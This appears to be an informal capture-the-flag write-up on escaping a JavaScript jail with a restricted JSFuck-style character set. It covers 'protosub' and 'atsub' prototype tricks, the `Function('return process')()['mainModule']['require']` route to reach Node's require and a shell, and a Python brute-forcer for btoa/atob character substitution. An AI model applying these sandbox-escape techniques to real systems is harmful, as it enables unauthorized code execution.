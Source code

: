 so to recap once we speedrun something like `7['constructor']['prototype'][smth]=7['constructor']['prototype']` (i call it protosub) we can do `7[smth][val]=smth_else` to "set variables" on the proto with something else and do `7[val]` to retrieve that something else very compactly

but ... its kind of chunky

the hardest part is getting the letter `p` for prototype, which the `old-solve.py` took like 4000 chars just to set up protosub because `p` is gigantasaurus (... orange ...)

however, we can do another technique i call atsub compression where we use `[]['at']` which is the same between different instances of `[]` since i think it is attached to the numbers proto but binded to `[]` or something like that (idk) (?) (?) idk maybe

getting `[]['at']` is fairly easy in this type of jsfuck (it is `"[][((7==77)+[])[+(7==7)]+((7==7)+[])[7-7]]"`)

so like `[]['at'][7]='constructor'` and then use `[]['at'][7]` to get 'constructor'. i feel like its more efficient to go for the atsub into protosub but i havent tested it with only atsub maybe its less idk

one thing that is important is doing atsub firsts and atsub first table where like you have `[a=b][a+a+a idk more usages of a to get shell]` but what we can do instead is something like `(a=b)+a+a idk more usages of a to get shell` and remove the extra usage since atsub takes a lot lot lot of characters (i should have applied this to protosub as well but its a bit annoying to impl)

so once we speedrun getting protosub capabilities, we do some automated golfing ... (will be discussed briefly just keep reading)

basically we want to make it as easy as possible to get out of this jail. we dont want to use obscure chars like `@` since those are really really hard to get in jsfuck, stuff like that.

the easiest way i found to get to require for importing modules was `Function('return process')()['mainModule']['require']`.

there are still some weird to get chars tho ... but there is a solution!

we can use btoa and atob abuse to get complex chars from simple chars, here is the brute force segment i wrote to do that

```js
# bruting btoa
store_btoa = {}
for a in subst_letters:
    for b in subst_letters:
        for c in subst_letters:
            for char in b64encode((a+b+c).encode()).decode():
                if char not in store_btoa or len(conjure(store_btoa[char])) > len(conjure(a+b+c)):
                    store_btoa[char] = a+b+c
        for char in b64encode((a+b).encode()).decode():
            if char not in store_btoa or len(conjure(store_btoa[char])) > len(conjure(a+b)):
                store_btoa[char] = a+b
    for char in b64encode((a).encode()).decode():
        if char not in store_btoa or len(conjure(store_btoa[char])) > len(conjure(a)):
            store_btoa[char] = a
# bruting atob
store_atob = {}
subst_letters_clean = [c for c in subst_letters if c in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"]
for a in subst_letters_clean:
    for b in subst_letters_clean:
        for c in subst_letters_clean:
            for d in subst_letters_clean:
                for char in b64decode((a+b+c+d).encode()).decode('latin-1'):
                    if char not in store_atob or len(conjure(store_atob[char])) > len(conjure(a+b+c+d)):
                        store_atob[char] = a+b+c+d
            for char in b64decode((a+b+c+'=').encode()).decode('latin-1'):
                if char not in store_atob or len(conjure(store_atob[char])) > len(conjure(a+b+c)):
                    store_atob[char] = a+b+c
```